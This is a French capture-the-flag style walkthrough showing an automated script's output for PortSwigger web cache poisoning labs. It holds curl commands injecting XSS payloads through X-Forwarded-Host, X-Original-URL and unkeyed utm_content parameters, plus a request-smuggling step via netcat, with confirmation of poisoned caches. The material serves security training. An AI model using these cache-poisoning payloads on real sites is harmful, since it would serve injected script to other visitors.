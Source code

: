 # MANPAGE

Voici un **exemple exhaustif d’exécution du script** pour tous les challenges Web Cache Poisoning de PortSwigger, avec payloads variables, en suivant la méthodologie automatisée :  
Chaque étape montre l’analyse (essai de vecteurs et payloads), l’attaque (injection réelle), le contrôle (vérification du cache), et s’arrête dès qu’un payload fonctionne, pour chaque challenge officiel.

---

## Paramètres du script (exemple)

```bash
LAB_URL="https://0ab100be03a1d2e280d7308a00d0000c.web-security-academy.net"
EXPLOIT_SERVER="exploit-server.net"
COOKIE="session=GXqGg2p9TkqLpZvR8nMjH4aR1s1d"
HEADERS="-H 'Cookie: $COOKIE'"
PAYLOADS=(
    "poisoned-by-cache"
    "<script>alert(1)</script>"
    "xss-test"
)
```

---

## Challenge 1 : Web Cache Poisoning (basic)

```
[1] Web Cache Poisoning (basic)
Test: curl -s -H "X-Forwarded-Host: poisoned-by-cache" -H 'Cookie: session=GXqGg2p9TkqLpZvR8nMjH4aR1s1d' "https://0ab100be03a1d2e280d7308a00d0000c.web-security-academy.net/?cb=poisoned-by-cache"
Payload 'poisoned-by-cache' détecté dans la réponse via X-Forwarded-Host et cb.
Empoisonnement du cache...
Contrôle :
=> Empoisonnement du cache confirmé avec payload 'poisoned-by-cache' !
```

- **Analyse** : Test de tous les headers (`X-Forwarded-Host`, etc.) et paramètres (`cb`, etc.) avec chaque payload.
- **Attaque** : Injection du payload dans la réponse.
- **Contrôle** : Nouvelle requête sans header : le payload est visible (preuve d’empoisonnement).

---

## Challenge 2 : Web Cache Poisoning with multiple headers

```
[2] Web Cache Poisoning with multiple headers
Test: curl -s -H "X-Forwarded-Host: <script>alert(1)</script>" -H "X-Original-URL: <script>alert(1)</script>" -H 'Cookie: session=GXqGg2p9TkqLpZvR8nMjH4aR1s1d' "https://0ab100be03a1d2e280d7308a00d0000c.web-security-academy.net/?cb=<script>alert(1)</script>"
Payload '<script>alert(1)</script>' détecté dans la réponse via X-Forwarded-Host + X-Original-URL et cb.
Empoisonnement du cache...
Contrôle :
=> Empoisonnement multi-header confirmé avec payload '<script>alert(1)</script>' !
```

- **Analyse** : Test de toutes les combinaisons de headers et paramètres avec tous les payloads.
- **Attaque** : Injection simultanée de plusieurs headers.
- **Contrôle** : Nouvelle requête sans headers, le payload est visible (preuve d’empoisonnement).

---

## Challenge 3 : Web Cache Poisoning via Request Smuggling

```
[3] Web Cache Poisoning via Request Smuggling
Envoi de la requête smuggling avec payload 'xss-test' via netcat :
Contrôle :
=> Empoisonnement via smuggling confirmé avec payload 'xss-test' !
```

- **Analyse** : Construction d’une requête HTTP smuggled (avec `Transfer-Encoding: chunked`), en utilisant chaque payload.
- **Attaque** : Envoi de la requête smuggled contenant le payload dans un header.
- **Contrôle** : Nouvelle requête standard : le payload injecté via smuggling est visible dans la réponse.

---

## Challenge 4 : Web Cache Poisoning via unkeyed parameter

```
[4] Web Cache Poisoning via unkeyed parameter
Test: curl -s -H 'Cookie: session=GXqGg2p9TkqLpZvR8nMjH4aR1s1d' "https://0ab100be03a1d2e280d7308a00d0000c.web-security-academy.net/?utm_content=<script>alert(1)</script>"
Payload '<script>alert(1)</script>' détecté dans la réponse via utm_content.
Empoisonnement du cache...
Contrôle :
=> Empoisonnement confirmé via utm_content avec payload '<script>alert(1)</script>' !
```

- **Analyse** : Injection du payload dans chaque paramètre non pris en compte dans la clé de cache, pour chaque payload.
- **Attaque** : Envoi de la requête avec le paramètre.
- **Contrôle** : Nouvelle requête sans le paramètre, le payload est visible (preuve d’empoisonnement).

---

## Résumé de l’exécution

| Challenge                                 | Vecteur testé                        | Payload injecté           | Contrôle (succès)                 |
|--------------------------------------------|--------------------------------------|---------------------------|-----------------------------------|
| Basic                                     | X-Forwarded-Host + cb                | poisoned-by-cache         | Payload visible                   |
| Multiple headers                          | X-Forwarded-Host + X-Original-URL    | <script>alert(1)</script> | Payload visible                   |
| Request smuggling                         | Smuggled header via netcat           | xss-test                  | Payload visible                   |
| Unkeyed parameter                         | utm_content                          | <script>alert(1)</script> | Payload visible                   |

---

## Points méthodologiques

- **Analyse** : Le script tente chaque payload sur chaque vecteur (headers, params, smuggling) jusqu’à trouver un qui injecte le payload dans la réponse.
- **Attaque** : Le vecteur fonctionnel est utilisé pour empoisonner le cache.
- **Contrôle** : Nouvelle requête sans header/paramètre : si le payload est visible, l’attaque est réussie.
- **Récursivité** : Si un vecteur/payload échoue, le script passe au suivant jusqu’à succès ou épuisement.

---

